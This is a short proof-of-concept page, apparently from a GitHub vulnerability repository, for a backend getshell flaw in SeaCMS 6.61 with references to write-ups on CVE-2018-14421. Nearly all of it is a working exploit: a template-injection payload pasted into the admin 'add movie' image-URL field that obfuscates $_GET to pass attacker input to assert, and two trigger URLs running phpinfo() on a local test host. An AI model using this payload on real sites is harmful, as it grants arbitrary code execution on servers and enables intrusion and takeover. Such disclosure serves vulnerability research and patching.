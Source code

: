 ## Affected Version 6.61



## POC



后台的-->添加影片--> 图片地址-->payload

`{if:1)$GLOBALS['_G'.'ET'][a]($GLOBALS['_G'.'ET'][b]);//}{end if}`

访问

`http://192.168.0.6/seacms661/detail/?1.html&a=assert&b=phpinfo();`

`http://192.168.0.6/seacms661/search.php?searchtype=5&tid=0&a=assert&b=phpinfo();`





## References



[seacms backend getshell](http://hexo.imagemlt.xyz/post/seacms-backend-getshell/index.html)

[CVE-2018-14421——Seacms后台getshell分析](https://www.anquanke.com/post/id/152764)







